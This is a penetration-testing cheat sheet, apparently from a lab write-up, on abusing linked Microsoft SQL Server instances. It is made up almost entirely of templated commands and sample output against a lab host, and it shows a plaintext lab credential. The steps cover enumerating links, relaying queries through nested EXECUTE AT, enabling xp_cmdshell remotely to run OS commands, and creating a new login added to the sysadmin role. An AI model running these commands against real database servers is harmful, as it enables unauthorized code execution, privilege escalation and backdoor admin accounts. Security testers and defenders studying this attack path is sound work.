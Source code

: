 ```yaml
---
title: "MSSQL Linked Servers"
date: 2025-7-25
tags: ["Database Dumping", "Privilege Escalation In Databases", "MSSQL", "Database", "Windows", "Linked Server"]
---
```


### Enum

{{< tab set1 tab1 >}}SQL{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<small>*Hint: Use double '' to escape ' in mssql*</small>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

```console
# Show linked servers
enum_links
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Enumerate Linked MSSQL Servers

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M enum_links
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M enum_links 
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
ENUM_LINKS  10.129.254.242  1433   DC               [+] Linked servers found:
ENUM_LINKS  10.129.254.242  1433   DC               [*]   - WIN-Q13O908QBPG\SQLEXPRESS
```

{{< /tabcontent >}}

---

### Execute Query between Linked Servers

{{< tab set2 tab1 >}}SQL{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M exec_on_link -o LINKED_SERVER=<LINKED_SERVER> COMMAND=<QUERY>
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M exec_on_link -o LINKED_SERVER='WIN-Q13O908QBPG' COMMAND='SELECT name FROM sys.server_principals WHERE sid = 01'
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
EXEC_ON_... 10.129.254.242  1433   DC               [*] Command output: []
```

{{< /tabcontent >}}

---

### Abuse #1: Execute Shell Commands on the Linked Server

{{< tab set3 tab1 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Enable the CMD Shell on a Linked Server

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M link_enable_xp -o LINKED_SERVER=<LINKED_SERVER> ACTION=enable
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M link_enable_xp -o LINKED_SERVER='WIN-Q13O908QBPG' ACTION=enable
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
LINK_ENA... 10.129.254.242  1433   DC               [*] Enabling advanced options on WIN-Q13O908QBPG...
LINK_ENA... 10.129.254.242  1433   DC               [*] Enabling xp_cmdshell on WIN-Q13O908QBPG...
LINK_ENA... 10.129.254.242  1433   DC               [*] []
LINK_ENA... 10.129.254.242  1433   DC               [+] xp_cmdshell enabled on WIN-Q13O908QBPG
```

#### 2. RCE

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M link_xpcmd -o LINKED_SERVER=<LINKED_SERVER> CMD='<CMD>'
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M link_xpcmd -o LINKED_SERVER='WIN-Q13O908QBPG' CMD='whoami'
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
LINK_XPCMD  10.129.254.242  1433   DC               [*] Running command on WIN-Q13O908QBPG: whoami
LINK_XPCMD  10.129.254.242  1433   DC               [+] Command output:
[]
```

{{< /tabcontent >}}

---

### Abuse #2: Create Admin User from Privilege Linked Server

{{< tab set4 tab1 >}}SQL{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

{{< /tabcontent >}}
